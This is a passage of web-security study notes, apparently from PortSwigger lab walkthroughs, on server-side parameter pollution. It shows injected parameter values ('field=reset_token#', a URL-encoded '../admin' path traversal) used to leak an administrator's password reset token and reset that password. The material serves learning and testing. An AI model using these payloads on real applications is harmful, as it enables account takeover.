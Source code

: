 * Decoded version:

```
csrf=VlaNiS8DCwtHUAzh7m5tsBzmxx5lWd4T&username=administrator&field=reset_token#
```

* Finally submit this request for the application to successfully reset the password for the administrator user:

```
GET /forgot-password?reset_token=TOKEN-VALUE HTTP/2
```



<br><br>

#### Testing for server-side parameter pollution in REST paths

*  Consider an application that enables you to edit user profiles based on their username. Requests are sent to the following endpoint:

```
GET /edit_profile.php?name=peter
```

* This results in the following server-side request:

```
GET /api/private/users/peter
```

* An attacker may be able to manipulate server-side URL path parameters to exploit the API. To test for this vulnerability, add path traversal sequences to modify parameters and observe how the application responds. 

* You could submit URL-encoded peter/../admin as the value of the name parameter:

```
GET /edit_profile.php?name=peter%2f..%2fadmin
```

* This may result in the following server-side request:

```
GET /api/private/users/peter/../admin
```


<br>

##### Lab: Exploiting server-side parameter pollution in a REST URL


* The following request is vulnerable to parameter pollution: (username - parameter)

```
POST /forgot-password HTTP/2
REDACTED...

csrf=63i3nSUwifBDmAYAnYtmxk2TP6EMFT8V&username=administrator
```
